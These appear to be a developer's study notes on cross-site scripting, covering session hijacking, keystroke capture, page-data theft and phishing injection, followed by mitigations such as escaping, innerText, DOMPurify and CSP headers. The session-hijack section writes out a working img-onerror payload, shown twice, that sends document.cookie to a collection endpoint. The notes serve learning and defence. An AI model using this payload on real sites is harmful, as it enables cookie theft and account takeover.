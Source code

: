 #### XXS

#### Vulnerabilities

## User Sesson Hijack
- When we are reading someting from url using search params, a random script can be added to our url in place of name which can execute a sciprt and steal our data.

- Now a days browsers are smart to not allow script tag to be added to url but, there are still hacks that can be done.
- eg <img src=\"does-not-exits\" onerror=\"var img=document.createElement(\'img\') img.src=`http://127.0.0.1:5501/cookie?data=${document.cookie}`; document.querySelector(\'body\').appendChild(img);\">

[encodeURIComponent("<img src=\"does-not-exits\" onerror=\"var img=document.createElement('img') img.src=`http://127.0.0.1:5501/cookie?data=${document.cookie}`; document.querySelector('body').appendChild(img);\">")]

- and pass above to url ?name="malicious script"
- the script executes and reads our cookies which is sensitive data.

## Unauthorized activities
- OR, hacker may execute some function (API) written inside you code with malicious information. As it is your code it will have all authorization and access and will execute successfully

## Capturing keystroke
- Or, Hacker can add script to track all key press events and get all data user is typing, which maybe be sensitive. eg password

## Stealing critical Information
- Hacker can write script to pass entire document.body.innerHTML to some malicious endpoint, whcih may pass critical information along

## phishing attact
- Hacker and insert their own html in DOM which may look very much similar to original, eg a form which takes login credentials

### [Mitigation]

- List all possible ways to take you input

- Use innerText or textContent in place of innerHTML - innerText will be pritext as syntax and not js code or dom element, it will be printed as norml string

- New modal of browser takes care of not executing script inject from url, it will be present but not execute, for older browser we need to handle by using innerText/textContent

- Use escaping mechnaism eg - const sanitizedName - name.replace(/</g, '&lt;').replace(/>/g, '&gt;') this will make any scipt inject to iur system non executable, the inject script will not be taken as dom element on execution but a string

- Using library React, all this sanitization is done behind the scene by React and other libraries for security purpose. This is provided out of the box.

- avaoid dangerouslysetinnerhtml, React allows this but should be avoided as they can be harmful. Use DOMPurify to sanitize your data if necessary.

- Use DOMPurify to sanitize your data DOMPurify.sanitize(name)

- CSP Headers (Content Security Policy Headers) - it can be ser on server, decided what type of resources can be loaded and from where all it can be loaded, to avoid injection form third party. Event handling which script to inject can be handled.

- Decide Allowed Sources
- Script Nonces
- Report only mode, - form where and how many places attackes are being tried

- Avoid using eval - it executes any code indside it, an be harmful
